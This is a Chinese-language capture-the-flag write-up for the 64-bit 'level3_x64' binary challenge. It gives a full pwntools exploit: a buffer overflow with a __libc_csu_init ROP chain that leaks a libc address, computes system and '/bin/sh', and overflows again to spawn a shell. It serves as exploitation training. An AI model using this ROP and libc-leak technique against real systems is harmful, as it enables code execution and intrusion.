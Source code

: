 # Level3_x64

查看程序保护

![image-20240521150636139](../图片/image-20240521150636139.png)

检查反汇编

![image-20240521150706898](../图片/image-20240521150706898.png)

![image-20240521150730169](../图片/image-20240521150730169.png)

这题跟level3内容一样，不同的是该题是x64的，需要注意的点是参数的构建，以及level2_x64中提到的栈平衡问题，payload如下

```python
from pwn import *
import time 

level3_x64 = ELF('./level3_x64')
sh = process('./level3_x64')

# gdb.attach(sh)
# sleep(15)


libc_main_got = level3_x64.got['__libc_start_main']
main_address = level3_x64.symbols['main']
vulnerable_function_address = level3_x64.symbols['vulnerable_function']
write_plt = level3_x64.plt['write']
write_got = level3_x64.got['write']

pop_rbx_rbp_r12_r13_r14_r15_ret = 0x4006AA
pop_rdi_ret = 0x4006b3
retn = 0x400690

temp = 0x40061B

sh.recvline()                                            
payload = flat([b'a'*136,p64(pop_rbx_rbp_r12_r13_r14_r15_ret),\ 					p64(0),p64(1),p64(write_got),p64(0x8),p64(libc_main_got),p64(0x1),p64(retn),\
b'a'*56,p64(temp)])

sh.send(payload)

address = sh.recvline()
address = address[:8]
address = int.from_bytes(address, byteorder='little')

system_address = address + 0x2e300
binsh_offset = address + 0x19062D


payload2 = flat([b'a'*136,p64(pop_rdi_ret),p64(binsh_offset),p64(system_address),p64(0xcafecafecafecafe)])
# print(payload2)
sh.send(payload2)


sh.interactive()


```

总结：

构建参数可以利用__libc_csu_ini 这个函数，如图

![image-20240521151746329](../图片/image-20240521151746329.png)

我利用r12,设置了r12为write的got地址，这样便去执行了write函数，打印libc_main的地址，利用偏移算system与binsh的地址，返回到main函数(注意栈平衡的问题)，继续二次溢出。